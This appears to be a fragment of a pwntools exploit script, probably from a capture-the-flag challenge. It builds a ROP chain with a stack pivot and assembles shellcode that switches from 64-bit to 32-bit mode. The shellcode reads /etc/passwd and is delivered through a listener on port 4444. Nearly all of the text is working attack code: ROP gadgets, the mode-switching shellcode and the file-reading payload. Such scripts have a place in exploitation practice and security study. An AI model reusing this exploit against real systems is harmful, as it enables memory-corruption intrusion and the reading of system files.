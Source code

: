 ```python
    payload += p64(base)
    payload += p64(addrs['poprax'])
    payload += p64(10)
    payload += p64(addrs['syscall'])

    payload += p64(base + 0x50)
    payload += '\x90' * 8

    print(context.arch)
    context.arch = 'amd64'
    sc64 = """
    mov DWORD PTR [rsp + 4], 0x23
    mov DWORD PTR [rsp], {}
    retf
    """.format(base + 0x100)

    payload += asm(sc64)
    payload = payload.ljust(0x100, '\x90')
    
    context.clear()
    sc32 = """
    mov eax, 63
    mov ebx, 1
    xor ecx, ecx
    int 0x80
    mov eax, 63
    mov ebx, 2
    xor ecx, ecx
    int 0x80
    """
    payload += asm(sc32)
    payload += asm(shellcraft.i386.linux.readfile('/etc/passwd', 0))
    payload = payload.ljust(0x300, '\x90')
    return payload

def main():
    l = listen(4444)
    payload = 'A' * (8 * 7)
    ropchain = pivotstack()
    payload += ropchain
    print("len payload = {}".format(len(payload)))
    raw_input('pwn?')
    r.sendline(payload)

    payload = realropchain()
    print("len payload 2 = {}".format(len(payload)))
    l.sendline(payload)

    r.interactive()
    r.close()

if __name__ == '__main__':
    main()
```
